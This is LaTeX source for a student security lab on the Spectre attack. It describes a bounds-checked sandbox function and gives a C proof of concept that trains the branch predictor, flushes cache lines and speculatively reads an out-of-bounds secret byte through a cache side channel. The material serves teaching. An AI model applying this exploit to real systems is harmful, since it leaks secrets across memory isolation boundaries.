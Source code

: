 There is a secret value in the restricted area (either above the buffer
or below it), and the secret's address is known to the attacker, but
the attacker cannot directly access the memory holding the secret value.
The only way to access the
secret is through the above sandbox function. From the previous section, we have learned that
although the true-branch will never be executed if \texttt{x} is larger than the buffer size,
at microarchitectural level, it can be executed and some traces can be left behind
when the execution is reverted.


\subsection{The Program Used in the Experiment}


The code for the basic Spectre attack is shown below. In this code, there is a
secret defined in Line . Assume that we cannot directly
access the \texttt{secret}, \texttt{bound\_lower}, or 
\texttt{bound\_upper} variables (we do assume that we
can flush the two bound variables from the cache). 
Our goal is to print out the secret
using the Spectre attack. The code below only steals the first byte of the secret. Students can
extend it to print out more bytes. 


\begin{lstlisting}[caption=\texttt{SpectreAttack.c}, label=spectre:list:spectreattack]
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

unsigned int bound_lower = 0;
unsigned int bound_upper = 9;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9};
char    *secret    = "Some Secret Value";     (*@\ding{192}@*)
uint8_t array[256*4096];

// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
  if (x <= bound_upper && x >= bound_lower) {
     return buffer[x];
  } else { return 0; }
}

void spectreAttack(size_t index_beyond)
{
  int i;
  uint8_t s;
  volatile int z;

  // Train the CPU to take the true branch inside restrictedAccess().
  for (i = 0; i < 10; i++) {
      restrictedAccess(i);
  }

  // Flush bound_upper, bound_lower, and array[] from the cache.
  _mm_clflush(&bound_upper);
  _mm_clflush(&bound_lower);
  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }
  for (z = 0; z < 100; z++)  {   }

  s = restrictedAccess(index_beyond);      (*@\ding{193}@*)
  array[s*4096 + DELTA] += 88;             (*@\ding{194}@*)         
}

int main() {
  flushSideChannel();
  size_t index_beyond = (size_t)(secret - (char*)buffer);  (*@\ding{195}@*)
  printf("secret: %p \n", secret);
  printf("buffer: %p \n", buffer);
  printf("index of secret (out of bound): %ld \n", index_beyond);
  spectreAttack(index_beyond);
  reloadSideChannel();
  return (0);
}
\end{lstlisting}


